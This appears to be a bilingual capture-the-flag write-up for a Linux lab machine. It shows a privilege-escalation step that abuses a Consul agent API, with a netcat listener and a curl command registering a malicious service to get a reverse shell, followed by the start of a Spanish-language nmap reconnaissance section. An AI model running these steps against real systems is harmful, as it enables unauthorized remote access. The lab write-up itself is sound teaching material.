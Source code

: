 In this case they are usuing a CMS called **Consul**, in the bottom left corner we can see its version.

Searching for vulnerabilities there is another [remote code execution](https://www.exploit-db.com/exploits/51117). Viewing the code we can see that it is creating a new service in json format.
With this information, we can copy the same payload in a service.json file, changing the 3 and 4 parameters for our IP and port to recive a reverse shell.

![Pic]({{ '/assets/img/heal/22pic.png' | relative_url }}){: .center-image }

Finally, using curl we can register the new malicious service and we will get a shell in the netcat port.

```sh
nc -lvnp 443
```

```sh
proxychains curl -X PUT --data-binary @service.json http://127.0.0.1:8500/v1/agent/service/register
```

![Pic]({{ '/assets/img/heal/23pic.png' | relative_url }}){: .center-image }

Also in the web interface we can see the new service created.

![Pic]({{ '/assets/img/heal/24pic.png' | relative_url }}){: .center-image }

Pwned!



## Reconocimiento

En esta ocasión estamos frente a una máquina Linux de dificultad media. Como siempre, empezaremos escaneando los puertos del host para ver qué puertos están abiertos.

```sh
nmap -p- --open -sS --min-rate 5000 -n -v -Pn -oN IScan 10.129.56.57
```

-     &nbsp;&nbsp;&nbsp;-p- &nbsp; Indica todo el rango de puertos (1-65535)<br>
-     &nbsp;&nbsp;&nbsp;--open   &nbsp;Únicamente muestra los puertos abiertos<br>
-     &nbsp;&nbsp;&nbsp;-sS  &nbsp;Hace un escaneo "SYN", más sigiloso<br>
- &nbsp;&nbsp;&nbsp;--min-rate 5000 &nbsp;Envía paquetes no más lentos de los indicados<br>
-     &nbsp;&nbsp;&nbsp;-n &nbsp;No aplica resolución DNS<br>
-     &nbsp;&nbsp;&nbsp;-v &nbsp;Muestra lo que encuentra en tiempo real (verbose)<br>
- &nbsp;&nbsp;&nbsp;    -Pn &nbsp;Da por hecho que los hosts están activos<br>
-   &nbsp;&nbsp;&nbsp;  -oN IScan &nbsp;Guarda el output en el formato mostrado, en ese archivo<br>

![Pic]({{ '/assets/img/heal/1pic.png' | relative_url }}){: .center-image }

Ahora nos interesa saber qué servicios corren en estos puertos.

```sh
nmap -sCV -p 22,80 10.129.56.57 -oN SScan
```
- &nbsp;&nbsp;&nbsp;-sCV &nbsp;Comprueba la versión y prueba unos scripts de reconocimiento<br>
- &nbsp;&nbsp;&nbsp;-p &nbsp;Indica los puertos a escanear
